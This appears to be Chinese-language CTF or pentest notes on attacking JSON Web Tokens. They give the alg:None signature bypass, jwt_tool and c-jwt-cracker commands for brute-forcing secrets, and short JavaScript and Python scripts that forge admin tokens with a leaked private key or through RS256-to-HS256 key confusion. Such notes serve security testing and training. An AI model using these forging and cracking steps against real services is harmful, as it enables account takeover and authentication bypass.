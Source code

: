 ## JWT(JSON Web Tokens)

在线工具：[JSON Web Tokens - jwt.io](https://jwt.io/)

本地工具：[[GitHub - ticarpi/jwt_tool: :snake: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool)](https://github.com/ticarpi/jwt_tool)

三个部分组成

- Header
- Payload
- Signature
  形式：xxxxx.yyyyy.zzzzz

```
HEADER:ALGORITHM & TOKEN TYPE
{
  "alg": "None",
  "typ": "jwt"
}

PAYLOAD:DATA
[
  {
    "iss": "admin",
    "iat": 1689410770,
    "exp": 1689417970,
    "nbf": 1689410770,
    "sub": "user",
    "jti": "f9bb22e3f645b6d8cd37307ff1349306"
  }
]

VERIFY SIGNATURE

签名一般会变
```

## 无签名认证时，可以先调为HS256加密算法进行JWT

```
当有签名时，可将 Header 中的加密算法改为 None（JWT 支持将算法设定为 “None”。如果“alg” 字段设为“ None”，那么签名会被置空，这样任何 token 都是有效的）

改payload为:header + '.' + payload + '.'（注意最后的点）

直接用base64改即可
```

## 弱密码利用工具爆破获得密钥

```
c-jwt-cracker

./jwtcrack xxx

jwt_tool.py

python3 jwt_tool.py xxx -C -d jwt-common.txt
```

```
RS256 是使用 RSA 私钥进行签名，使用 RSA 公钥进行验证,
HS256 使用同一个「secret_key」进行签名与验证（对称加密）
ES256 和 RS256 一样，都使用私钥签名，公钥验证

可以尝试浏览器目录是否有public.key 和 private.key
```

## 当知道私钥时，可以通过RS2565构造jwt

```
js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('private.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'RS256' });
console.log(token)

python脚本：
import jwt  
public = open('private.key', 'r').read()  
payload={"user":"admin"}  
print(jwt.encode(payload, key=public, algorithm='RS256'))
# 需安装pyjwt库
```

## 当只知道公钥时

```
可以通过HS256构造jwt（如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名）

js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

